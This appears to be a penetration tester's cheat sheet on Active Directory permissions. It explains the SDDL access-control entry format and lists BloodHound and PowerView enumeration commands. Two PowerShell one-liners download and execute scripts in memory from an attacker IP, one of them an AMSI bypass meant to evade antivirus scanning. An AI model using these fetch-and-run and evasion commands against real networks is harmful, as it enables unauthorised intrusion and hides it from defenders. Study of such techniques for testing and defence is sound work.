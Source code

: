 ### Permissions: ACE (Access Control Enties) SDDL (Security Descriptor Definition Language) - Format

```console
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid

--> ace_type: defines allow/deny/audit
--> ace_flags: inheritance objects
--> rights: incremental list with given permissions (allowed/audited/denied), incrmentalas ARE NOT the only ones
--> object_guid and inherit_object: Allows to apply an ACE on a specified objects by GUID values. GUID is an object class, attribute, set or extended right, if pressent limits the ACE's to the object the GUID represents. Inherited GUID represents an object class, if present will limit the inheritance of ACE's to the child enties only of that object
--> account_sid: SID of the object the ACE is applying, is the SID of the user or group to the one permissions are being assigned, sometimes there are acronyms of well known SID's instead of numerical ones
```

### BloodHound

```powershell
$attacker="192.168.42.37";$domain="example.com";IEX(New-Object Net.Webclient).downloadString("http://$attacker/4msibyp455.ps1");IEX(New-Object Net.Webclient).downloadString("http://$attacker/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All,GPOLocalGroup,LoggedOn -Domain $domain
```

### PowerView methods for enumeration

This is the command for download injected into memory with an AMSI Bypass before

```powershell
$user="userNameHereIfQueryUsesIt";$attacker="192.168.49.107";$dominio="example.com";IEX(New-Object Net.Webclient).downloadString("http://$attacker/nieri.ps1");IEX(New-Object Net.Webclient).downloadString("http://$attacker/PowerView.ps1");OneOfThePowerViewCmdsFromBelowHere
```
#### ACLs

```console
Get-ObjectAcl -Identity ceso <-- Get all the objects and acls the given user has
```

#### Users

```console
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | ForEach-Object {$_ | Add-Member -NoteProperty    Name Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | ForEach-Object {if (    $_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}} <-- Maps all users in the domain into a table replacing the SID for the name

Get-DomainUser -Domain example.com <-- Enumeration truncated only to the users in the given domain

Get-DomainUser -TrustedToAut <-- List all the SPN's which have Constrained Delegation
```
